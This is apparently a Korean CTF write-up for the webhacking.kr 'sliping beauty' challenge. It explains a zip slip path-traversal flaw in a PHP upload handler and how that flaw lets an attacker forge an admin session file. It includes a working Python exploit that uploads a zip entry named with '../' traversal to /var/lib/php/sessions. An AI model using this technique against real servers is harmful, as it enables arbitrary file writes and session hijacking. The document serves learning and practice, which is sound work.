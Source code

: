 ```yaml
---
title: '[Webhacking.kr] sliping beauty'
author: hoppi
date: 2023-03-01 01:43:00 + 0000
categories: [Web]
tags: [web, zip_slip, php]
---
```


오랜만에 `webhacking.kr`에 들어가서 좀 예전에 나왔던 새로운(??) 문제들을 몇 문제 풀어보았습니다. 1.5년 전만 하더라도 그 문제들을 보면서 `어떻게 풀라는 거지?`라는 생각 밖에 못했는데 이제는 그 정도는 아닌 것 같네요. 아무튼 그 중에서 오랜만에 마주친 개념을 포함한 `sliping beauty` 롸업을 적어보려고 합니다.  

# 코드 분석
***
먼저 세션의 `uid`가 `admin`이면 플레그를 출력합니다. 사용자가 `zip` 파일을 올리면 추출한 파일들에 난수를 붙여서 `./upload/` 디렉토리에 `copy`합니다.  
```php
<?php
session_start();
if(!$_SESSION['uid']) $_SESSION['uid'] = "guest";
if($_SESSION['uid'] == "admin") include "/flag";
if($_FILES['upload']){
  $path = $_FILES['upload']['tmp_name'];
  $zip = new ZipArchive;
  if ($zip->open($_FILES['upload']['tmp_name']) === true){
    for($i = 0; $i < $zip->numFiles; $i++){
      $filename = $zip->getNameIndex($i);
      $filename_ = $filename.rand(10000000,99999999);
      if(strlen($filename) > 240) exit("file name too long");
      if(preg_match('/[\x00-\x1F\x7F-\xFF]/',$filename)) exit("no hack");
      if(copy("zip://{$_FILES['upload']['tmp_name']}#{$filename}", "./upload/{$filename_}")) echo "{$filename_} uploaded.<br>";
      else echo "{$filename_} upload failed.<br>";
    }
    $zip->close();
  }
}
highlight_file(__FILE__);
?>
```
<br/>

# 취약점
***
## Zip Slip
***
`Zip slip`은 `path traversal`구문을 가지는 파일을 포함한 `zip`, `tar` 등을 추출할 때 이를 이용하여 공격자가 의도한 경로로 원하는 파일을 덮어쓰거나 업로드하는 공격 방식입니다. 이 문제에서는 `preg_match()`를 이용해서 `filename`을 검사하지만 `../` 은 필터링하지 않습니다.  

## PHP Session Overwrite
***
위의 `zip slip`을 이용하면 임의의 위치에 파일을 업로드할 수 있으므로 원하는 세션을 만들어낼 수 있습니다. `PHP`는 직렬화된 포멧으로 `/var/lib/php/sessions/` 디렉토리에 세션파일을 저장합니다. 그리고 그 파일의 포멧은 `session_[PHPSESSID]`와 같습니다. 세션파일에 저장하는 값은 아래와 같이 간단하게 쉘에서 확인할 수 있습니다. `session_encode()`를 통해서 직렬화된 세션 데이터를 얻을 수 있습니다. (여기서 `session_start()`는 가장 위에 선언해줘야합니다. 코드를 몇개 적고 중간에 적어주게 되면 에러가 발생합니다🙃)  
![session](../../../assets/img/2023-03-01/session.png){: w="700" h="350" }  
<br/>

# Exploit
***
다음과 같은 시나리오를 구성할 수 있습니다.  

1. 직렬화된 세션 데이터를 포함한 `aasdasdsd/../../../../../../../../var/lib/php/sessions/sess_`파일을 압축하여 업로드합니다.
2. `sess_` 뒤에 랜덤한 숫자가 붙기 때문에 이 숫자가 `PHPSESSID`가 됩니다.
3. 이 랜덤한 숫자로 쿠키의 `PHPSESSID` 값을 바꿔줍니다.
<br/>

## PoC Code
***
그냥 파일이름에 `../`을 포함시키려고 맥북에서는 `/`를 `:`로 바꾸더라구요. 결국 방법을 찾지 못해서 어차피 PoC 코드로 적어야 할 겸 다른 ctf 문제에서 사용한 zip 파일 업로드 코드를 이용했습니다. ㅋㅅㅋ  
```python
from requests import post,get
from re import search
from io import BytesIO
import zipfile

info = lambda x: print(f'[+] {x}')
URL = 'http://webhacking.kr:10015'

PAYLOAD = 'uid|s:5:"admin";'

fh = BytesIO()
with zipfile.ZipFile(fh, "a", zipfile.ZIP_DEFLATED, False) as zf:
    zf.writestr("hacked/../../../../../../../../var/lib/php/sessions/sess_", PAYLOAD)

## Get Cookie
res = get(f"{URL}/")
COOKIE = {"PHPSESSID":res.headers['Set-Cookie'][:-7].split("PHPSESSID=")[1]}

## Zip file upload
res = post(f"{URL}/", files={"upload": ('hoppi.zip', fh.getvalue())}, cookies=COOKIE)
if "failed" in res.text.split("<br>")[0]:
    print(f"[-] Failed to upload zip file...")
else:
    info(res.text.split("<br>")[0])

NEW_SESSID = res.text.split("sess_")[1].split(" uploaded.")[0]
info (f"New PHPSESSID is {NEW_SESSID}")
NEW_COOKIE = {"PHPSESSID":NEW_SESSID}
res = get (f"{URL}/",cookies=NEW_COOKIE)

## Get flag
m = search(r"FLAG{.*?}",res.text)

if m:
    FLAG = m.group()
    info(f'Flag is {FLAG}')
else :
    print("[-] Failed to find the flag")
```
{: file='exploit.py'}
<br/>

# Reference
***
- [https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/](https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/)
- [https://ctftime.org/writeup/33611](https://ctftime.org/writeup/33611)
- [https://www.hahwul.com/cullinan/zip-slip/](https://www.hahwul.com/cullinan/zip-slip/)